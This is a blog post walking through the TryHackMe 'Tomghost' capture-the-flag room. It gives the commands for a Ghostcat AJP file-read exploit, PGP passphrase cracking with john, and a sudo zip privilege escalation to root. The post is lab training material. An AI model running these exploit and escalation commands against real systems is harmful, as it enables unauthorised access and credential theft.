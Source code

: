 ```yaml
---
title:  "Tomghost - TryHackMe"
style: fill
color: primary
tags: [TryHackMe, Tomcat, PGP, SSH]
permalink: /blog/thm/tomghost
description: Tomghost is a fairly easy level TryHackMe machine created by @stuxnet.
---
```

<br>
![Image]({{ "/assets/images/thm/tomghost/banner.png" | relative_url}})
<br>
Tomghost is an easy level TryHackMe machine. It's created by [@stuxnet](https://tryhackme.com/p/stuxnet)

Link: https://tryhackme.com/room/tomghost

## Overview:
Nmap Scan, Apache Tomcat, SSH, PGP, and Privilege Escalation.

## Enumeration:
I started with typical Nmap port scanning.
```shell
nmap -sV -v -p- 10.10.10.10
```
<br>
![Image]({{ "/assets/images/thm/tomghost/nmapinitial.png" | relative_url}})
<br>

As you can see have 22, 8009, and 8080 ports open which are our interest.

The system is running Apache Tomcat version 9.0.30. Also we have Apache Jserv(ajp13 service) on port 8009.

I looked through the webpage in browser and I got nothing which was useful. The Manager login is restricted. Then I googled “Tomcat ajp13 exploit” and the common term I could see was ‘Ghostcat’. I realized that the Tomcat version 9.0.30 is vulnerable this. But the most confusing part was there were several exploits for this vulnerability. It took me 10 mins to find the one which worked for me.

Go to this link and git clone the repository: [https://github.com/00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)

<br>
![Image]({{ "/assets/images/thm/tomghost/ajpshooter.png" | relative_url}})
<br>

```python
python3 ajpShooter.py http://<ip>:8080 8009 /WEB-INF/web.xml read
```

Execute the command and in the result you will get the ssh credentials for user ‘skyfuck’.

<br>
![Image]({{ "/assets/images/thm/tomghost/sshcreds.png" | relative_url}})
<br>

Login with SSH. You will see two files in the user directory of the user.

<br>
![Image]({{ "/assets/images/thm/tomghost/sshskyfuck.png" | relative_url}})
<br>

One is PGP file with some encrypted content and second one is the PGP private key. Luckily I knew about PGP encryption and knew what to do. Copy both the files to your local machine using scp command.
```ssh
scp skyfuck@<ip>:/home/skyfuck/* .
```

Above command will copy both the files at the same time to your current directory on local machine.

<br>
![Image]({{ "/assets/images/thm/tomghost/scp.png" | relative_url}})
<br>

Also you will get the user flag in other user’s directory.

<br>
![Image]({{ "/assets/images/thm/tomghost/userflag.png" | relative_url}})
<br>

Back to PGP now. To decrypt the PGP file with the key, first we need to crack the passphrase that protects the key. I used gpg2john command to convert the key into its hash. And then crack the hash using john command.
```shell
gpg2john tryhackme.asc > hash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=gpg hash
```

<br>
![Image]({{ "/assets/images/thm/tomghost/pgpkeypass.png" | relative_url}})
<br>

You will get the passphrase. Now let’s decrypt the file. First I imported the key using gpg command. You will asked to enter the passphrase when you will execute the command. Once the key is imported, decrypt the file.
```shell
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```

<br>
![Image]({{ "/assets/images/thm/tomghost/credential.png" | relative_url}})
<br>

You will get the password for the other user. Switch the user.
```shell
su merlin
```

After getting any low privileged user’s shell, first thing I always check the sudo permissions the user possesses. Again luckily it was all I needed to do.

<br>
![Image]({{ "/assets/images/thm/tomghost/sudol.png" | relative_url}})
<br>

merlin has sudo privileges to run /usr/bin/zip command. Whenever I get find a sudo permission for a program, I go to GTFOBins and surely everyone does the same if they are not sure about how to escalate privileges using a specific command.

Change the directory. Run the following command and you will be root.
```shell
touch hello
sudo zip hello /etc/hosts -T -TT 'sh #'
```

Get the Root Flag.

<br>
![Image]({{ "/assets/images/thm/tomghost/privescrootflag.png" | relative_url}})
<br>

That's it for this machine. See you later!
## Thank-you!!

Do follow me on socials below for stay connected for these kind of writeups/walkthroughs/blogs.